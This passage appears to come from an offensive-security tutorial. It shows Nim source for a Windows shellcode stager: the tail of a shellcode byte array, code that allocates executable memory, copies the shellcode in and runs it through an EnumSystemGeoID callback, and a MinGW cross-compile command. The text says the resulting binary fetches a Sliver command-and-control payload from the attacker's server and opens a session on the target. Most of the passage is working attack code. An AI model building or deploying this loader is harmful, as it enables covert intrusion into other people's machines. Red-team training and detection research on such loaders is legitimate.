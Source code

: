 ```
    ,0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41
    ,0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41
    ,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31
    ,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8
    ,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40
    ,0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,0xd5
    ,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c
    ,0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41
    ,0xff,0xe7,0x58,0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff
    ,0xd5 ]

    # Equilevant to Python's if __name__ == "__main__"
    when isMainModule: 
        let currentproc = GetCurrentProcessId()
        echo "Current process ID: ", currentproc

        # Allocate memory for our shellcode
        let memPtr = VirtualAlloc(
            nil,
            cast[SIZE_T](shellcode.len),
            MEM_COMMIT,
            PAGE_EXECUTE_READ_WRITE
        )

        # Copy our shellcode to the memory section
        CopyMemory(memPtr, unsafeAddr shellcode, cast[SIZE_T](shellcode.len))

        # Interesting way to execute our code, ref: https://github.com/HuskyHacks/RustyProcessInjectors/blob/master/EnumSystemGeoID/src/main.rs
        EnumSystemGeoID(
            16,
            0,
            cast[GEO_ENUMPROC](memPtr)
        )
```  

Compiling this program can be done on Linux if you have [MinGW](https://www.mingw-w64.org/). The command to compile it to Windows is ```nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:release <your stager>.nim```  

Running this binary on the target Windows machine results in the binary fetching the main Sliver payload from our server and executing it, giving us a session:  
